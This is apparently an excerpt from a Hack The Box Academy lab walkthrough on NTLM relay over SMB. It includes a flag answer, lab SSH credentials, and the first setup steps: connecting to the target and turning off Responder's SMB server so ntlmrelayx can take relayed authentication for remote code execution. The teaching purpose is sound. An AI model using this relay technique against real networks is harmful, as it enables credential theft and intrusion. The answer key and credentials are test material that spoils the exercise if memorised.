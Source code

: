 Answer: `e4737f338324305993ed52f775a6d54d`

## NTLM Relay over SMB Attacks

### Question 2

#### "Relay NTLM authentication over SMB to gain remote code execution on 172.16.117.50. Submit the contents of the file 'C:\Windows\System32\flag.txt'."

After spawning the target machine, students will connect via SSH with the provided credentials `htb-student:HTB_@cademy_stdnt!`. Students will have to note that they will need to either establish four SSH connections to the spawned target machine, use `tmux`, or connect to the target via `RDP`. This is due to the fact that they will utilize two tools `Responder` , `ntlmrelayx` , `python`, and `nc`, and those tools take over the stdin while they are running.

Code: shell

```shell
ssh htb-student@STMIP
```

```shell-session
┌─[eu-academy-1]─[10.10.14.196]─[htb-ac-8414@htb-7admwdxcua]─[~]
└──╼ [★]$ ssh htb-student@10.129.100.121
The authenticity of host '10.129.100.121 (10.129.100.121)' can't be established.
ECDSA key fingerprint is SHA256:3I77Le3AqCEUd+1LBAraYTRTF74wwJZJiYcnwfF5yAs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.100.121' (ECDSA) to the list of known hosts.
htb-student@10.129.100.121's password: HTB_@cademy_stdnt!
<SNIP>
  
Last login: Wed Aug 30 16:24:31 2023 from 10.10.14.33 
htb-student@ubuntu:~$
```

Subsequently, students need to change their working directory to `tools/Responder`. They will have to turn off the SMB Server, usually started by `Responder` by altering the configuration in the `Responder.conf` file located in the directory. This is done to allow the relayed authentication to go to `ntlmrelayx`:

Code: shell

```shell
cd tools/Responder
sed -i "s/SMB = On/SMB = Off/" Responder.conf
cat Responder.conf | grep -i smb
```

```shell-session
htb-student@ubuntu:~$ cd tools/Responder
htb-student@ubuntu:~/tools/Responder$ sed -i "s/SMB = On/SMB = Off/" Responder.conf

htb-student@ubuntu:~/tools/Responder$ cat Responder.conf | grep -i smb
SMB = Off
```
